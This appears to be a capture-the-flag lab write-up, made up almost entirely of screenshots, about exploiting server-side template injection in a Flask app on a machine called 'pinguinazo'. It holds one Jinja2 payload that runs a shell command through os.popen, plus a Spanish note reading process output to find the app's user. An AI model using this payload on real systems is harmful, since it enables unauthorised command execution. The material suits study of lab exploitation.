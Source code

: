 ![](images/images-pinguinazo/Pasted%20image%2020250228114121.png)
![](images/images-pinguinazo/Pasted%20image%2020250228114606.png)

![](images/images-pinguinazo/Pasted%20image%2020250228114822.png)

![](images/images-pinguinazo/Pasted%20image%2020250228115236.png)
![](images/images-pinguinazo/Pasted%20image%2020250228115744.png)

![](images/images-pinguinazo/Pasted%20image%2020250228115846.png)

![](images/images-pinguinazo/Pasted%20image%2020250228122517.png)

![](images/images-pinguinazo/Pasted%20image%2020250228122546.png)

![](images/images-pinguinazo/Pasted%20image%2020250228123633.png)

![](images/images-pinguinazo/Pasted%20image%2020250228122639.png)

![](images/images-pinguinazo/Pasted%20image%2020250228124134.png)

![](images/images-pinguinazo/Pasted%20image%2020250228124206.png)

``` bash
{{request.application.__globals__.__builtins__.__import__('os').popen('echo whoami | bash').read()}}
```

![](images/images-pinguinazo/Pasted%20image%2020250228124241.png)

![](images/images-pinguinazo/Pasted%20image%2020250228124404.png)

![](images/images-pinguinazo/Pasted%20image%2020250228124905.png)

![](images/images-pinguinazo/Pasted%20image%2020250228125434.png)

![](images/images-pinguinazo/Pasted%20image%2020250228125509.png)

![](images/images-pinguinazo/Pasted%20image%2020250228125641.png)

![](images/images-pinguinazo/Pasted%20image%2020250228130334.png)

![](images/images-pinguinazo/Pasted%20image%2020250228130717.png)

![](images/images-pinguinazo/Pasted%20image%2020250228130743.png)

![](images/images-pinguinazo/Pasted%20image%2020250228130828.png)

![](images/images-pinguinazo/Pasted%20image%2020250228131112.png)

![](images/images-pinguinazo/Pasted%20image%2020250228131145.png)

![](images/images-pinguinazo/Pasted%20image%2020250228132445.png)

![](images/images-pinguinazo/Pasted%20image%2020250228133123.png)

![](images/images-pinguinazo/Pasted%20image%2020250228135757.png)
Viendo la salida de tu comando `ps aux | grep app.py`, parece que la aplicación Flask está siendo ejecutada por el usuario `pinguinazo` con el siguiente comando:

`python3 /home/pinguinazo/flask_ssti_lab/app.py`

Además, observamos que el comando está siendo ejecutado a través de un `su` (Switch User), lo que significa que la aplicación se ejecuta como un usuario específico en lugar de como root.







